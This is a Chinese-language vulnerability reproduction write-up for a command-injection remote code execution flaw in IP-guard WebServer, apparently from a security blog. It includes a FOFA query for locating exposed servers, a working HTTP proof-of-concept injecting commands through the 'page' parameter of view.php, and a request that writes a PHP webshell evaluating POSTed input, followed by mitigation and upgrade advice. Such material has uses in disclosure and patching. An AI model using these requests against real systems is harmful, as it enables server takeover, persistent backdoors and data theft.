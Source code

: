 
# IP-guard WebServer RCE 漏洞复现

### 0x01 产品简介

   IP-guard 是由溢信科技股份[有限公司](https://so.csdn.net/so/search?q=%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8&spm=1001.2101.3001.7020)开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化 IT 系统管理。

### 0x02 漏洞概述

 **漏洞成因**  
    在 Web 应用程序的实现中，参数的处理和验证是确保应用安全的关键环节。然而，当参数处理不当时，就会出现安全漏洞，给攻击者留下可利用的空间。在此次 IP-guard 的漏洞中，关键问题出现在对某个参数的处理上。该参数原本用于指定要查看的文档页面。但由于未对输入进行适当的过滤和限制，攻击者能够通过命令注入的方式，利用该参数在服务器上执行任意命令。  
**利用特征**  
   针对这个漏洞，从流量层面的利用特征表现在不寻常的 HTTP GET 请求中。在正常情况下，这个存在漏洞的参数应该只包含数字或预定义格式的数据，用于指定文档的特定页面。然而在攻击流量中，该参数的值包含了操作系统命令，这些命令通常以特殊字符（如管道符 ||）开始，后跟可执行的系统命令。  
**漏洞影响**  
   该漏洞的成功利用允许攻击者在服务器上远程执行命令，导致服务器完全被接管。同时，攻击者不仅可以利用漏洞获取对服务器的控制权，进而还可能访问或删除敏感数据，植入恶意软件，甚至使用服务器作为发起进一步攻击的跳板。

### 0x03 影响范围

 IP-guard < 4.81.0307.0

### 0x04 复现环境

FOFA："IP-guard" && icon\_hash="2030860561"

![](assets/1699929298-08c0979b657c4934ef49ba1179b54b4f.png)

### 0x05 漏洞复现

PoC

```http
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+123456+>1.txt HTTP/1.1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

写文件 

![](assets/1699929298-30cd4130ee8976d499479c3b665cee08.png)

验证 

```http
GET /ipg/static/appr/lib/flexpaper/php/1.txt HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-67248e2398f571715e566d8d01d9b78a.png) **漏洞利用**

 写 WebShell

```http
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+^<?php+@mb_eregi_replace('.*',$_POST['a'],'','ee');?^>+>1.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-7bcf9dd988a55c712f274570192171ce.png)

验证

![](assets/1699929298-60b3e4d7c34b28f7c632074e7b3a8fa2.png)

### ![](assets/1699929298-6cc5594e236d28344b59d5b06fea4d94.png) 0x06 修复建议

**临时缓解方案**  
    配置入侵检测系统（IDS）和入侵防御系统（IPS）以及 Web 应用防火墙（WAF），以识别和阻止包含这类特征的请求，从而保护系统免受此类远程命令执行攻击的影响；同时为了避免攻击者绕过安全设备实施攻击，建议尽快修复漏洞。  
   如非必要，不要将 IP-guard 放置在公网上。或通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。  
**升级修复方案**  
   官方已发布新版本修复漏洞，建议尽快访问官网（https://www.ip-guard.net/）或联系官方售后支持获取版本升级安装包或补丁，升级至 4.81.0307.0 版本及以上
